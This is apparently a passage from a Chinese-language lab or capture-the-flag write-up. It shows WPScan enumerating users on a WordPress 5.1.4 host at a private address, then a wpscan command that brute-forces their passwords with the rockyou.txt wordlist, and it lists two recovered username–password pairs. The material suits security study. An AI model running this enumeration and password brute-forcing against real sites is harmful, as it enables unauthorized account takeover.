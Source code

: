 ```javascript
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.101.213/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.1.4'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.101.213/, Match: 'WordPress 5.1.4'

[i] The main theme could not be detected.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] gillian
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] barney
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] peter
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] stephen
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Nov 21 14:42:50 2021
[+] Requests Done: 32
[+] Cached Requests: 28
[+] Data Sent: 8.322 KB
[+] Data Received: 80.377 KB
[+] Memory used: 128.688 MB
[+] Elapsed time: 00:00:03

```

根据枚举的用户名，配合rockyou.txt密码字典爆破口令

最终爆破出来两个结果：

```javascript
┌─[✗]─[root@pendo]─[/home/pendo]
└──╼ #wpscan --url http://192.168.101.213 -U usr.txt -P /usr/share/wordlists/rockyou.txt

 | Username: barney, Password: spooky1
 | Username: stephen, Password: apollo1

```

